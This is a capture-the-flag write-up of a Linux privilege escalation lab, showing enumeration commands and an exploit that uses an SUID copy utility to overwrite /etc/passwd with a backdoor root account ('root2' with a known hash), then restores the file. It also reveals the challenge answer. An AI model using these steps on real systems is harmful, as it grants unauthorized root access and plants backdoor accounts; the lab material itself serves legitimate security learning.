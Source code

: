 # Linux PrivEsc

This challenge is located in *Ostrich Saloon* on the *Island of Misfit Toys*. Speak to *Rose Mold* to start the challenge.

## Challenge Prompt

Once we open the terminal, we are greeted with the challenge prompt.

![Figure 1: Linux PrivEsc Challenge Prompt](/img/privesc-prompt.png)

We are currently running in the context of a standard non-privileged user account. Our goal is to elevate permissions to a super-user level and run an executable in the `/root` directory to complete the challenge. 

Before looking for privilege escalation vectors, we should perform some basic situational awareness checks.

```bash
id
hostname
pwd
ls -al
cat /etc/passwd
uname -a
```

![Figure 2: Gathering Basic Information](/img/privesc-basic.png)

## Enumeration

It is time to begin enumerating the file system for privilege escalation vectors. Typically, I search for the following low-hanging fruit privilege escalation opportunities first when evaluating a Linux target:
* `sudo`-abusable packages
* Plaintext credentials stored in environment variables or commnad history transcripts
* Abusable cron jobs
* Binaries with the SUID or the SGID bit set 

### Sudo Abuse

The first privilege escalation we check for is what commands we may run with `sudo`.

```bash
sudo -l
```

![Figure 3: Checking for `sudo` Abuse Vectors](/img/privesc-sudo.png)

It appears that the `sudo` package is not installed, so we will move on to other privilege escalation techniques.

### Environment Variables

Check for any sensitive information hardcoded as environment variables with `env`.

```bash
env
```

![Figure 4: Checking for Credentials Hardcoded as Credentials](/img/privesc-env.png)

None of the environment variables appear to be representing credentials.

### Cron Job Abuse

Check what cron jobs are running on the target. Cron job scripts are stored in subdirectories of the `/etc/` directory named after their running cadence (e.g. `cron.daily` for daily scripts, `cron.weekly` for weekly scripts, etc).

```bash
ls -alh /etc/cron*
```

![Figure 5: Checking for Abusable Cron Jobs](/img/privesc-cron.png)

The `apt-compat` and `dpkg` cron jobs are default jobs in Linux and not exploitable, so we can move on.

### SUID and SGID Marked Binaries

Attempt to check for binaries that have been assigned the SUID or SGID bit.

```bash
find / -perm -u=s -type f 2>/dev/null

find / -perm -g=s -type f 2>/dev/null
```

![Figure 6: Checking for Binaries with the SUID or SGID Bits Enabled](/img/privesc-suid-sgid.png)


The binary `/usr/bin/simplecopy` stands out to me. Check its `--help` menu.

```bash
simplecopy --help
```

![Figure 7: Checking the Help Menu of `/usr/bin/simplecopy`](/img/privesc-help.png)

The utility seems to copy an item to a destination. 

If we can overwrite files with the `simplecopy` binary, then we may be able to escalate privileges by overwriting the contents of `/etc/passwd`. Validate that we can overwrite files by creating two test files and using the `simplecopy` utility on them.

```bash
echo 'test 1' > test1.txt
echo 'test 2' > test2.txt
simplecopy test2.txt test1.txt 
cat test1.txt 
```

![Figure 8: Testing out the `simplecopy` Binary](/img/privesc-test.png)

The overwrite seems to work. 

## Exploitation

This will be our attack methodology:
* We will generate a DESCrypt hash of a known plaintext that we will use as our backdoor account's password.
* We will make a copy of `/etc/passwd` and apppend a line to our copy creating a new *root* account using our hash as its password.
* We will use `simplecopy` to overwrite the contents of `/etc/passwd` with our malicious copy, then login to the backdoor account.
* With our attack concluded, we should revert our changes.

On my personal instance of Kali Linux, I used the `mkpasswd` utility to generate a DESCrypt hash, which is a supported hash algorithm by `/etc/passwd`. If this were a real engagement, we should use a strong password, since creating a backdoor account with a very weak password would introduce another critical vulnerability to the system. For this challenge however, I generated a hash for the password *yougotpwnedithappens*.

```bash
echo 'yougotpwnedithappens' | mkpasswd -m descrypt -s
```

![Figure 9: Generating a Password Hash with `mkpasswd`](/img/privesc-mkpasswd.png)

Back on the target machine, create a backup of `/etc/passwd` in case we need to roll back our changes.

```bash
cat /etc/passwd > /tmp/passwd.bak
```

![Figure 10: Creating a Backup of `/etc/passwd`](/img/privesc-backup.png)

Continue with the attack by create a writeable copy of `/etc/passwd`, append the new line to `/etc/passwd` that adds a new superuser with our generated password, and validate its contents.

```bash
cat /etc/passwd > /tmp/passwd
echo 'root2:J68/tUveONM2s:0:0:root:/root:/bin/bash' >> /tmp/passwd
cat /etc/passwd
```

![Figure 11: Creating a Malicious Copy of `/etc/passwd`](/img/privesc-malicious-passwd.png)

With our malicious `/etc/passwd` file prepared, we can now overwrite the contents of `/etc/passwd`.

```bash
simplecopy /tmp/passwd /etc/passwd
```

![Figure 12: Overwriting the Contents of `/etc/passwd`](/img/privesc-overwrite.png)

Now when we attempt to authenticate as *root2*, we should enter a shell running in the context of *root*.

```bash
su root2 - # Enter our password via STDIN
```

![Figure 13: Opening a New Session as *root2*](/img/privesc-exploited.png)

We are now running in a shell as *root*. Move to the directory `/root` and run the binary to complete the lab. The answer to the question is "santa", of course!

```bash
cd /root
ls -al
./runmetoanswer 
```

![Figure 14: Running the `runmetoanswer` Binary](/img/privesc-runmetoanswer.png)

Finally, we should exit the *root* shell and replace the current contents of `/etc/passwd` with the `/tmp/passwd.bak` backup file we created earlier. This ensures that we left the target machine the way we left it at the beginning of the engagement. We could also consider patching the vulnerability, but that might result in unintended broken functionality, so we will leave the binary alone for now.

```bash
exit
simplecopy /tmp/passwd.bak /etc/passwd
cat /etc/passwd
```

![Figure 15: House Cleaning Operations](/img/privesc-house-cleaning.png)
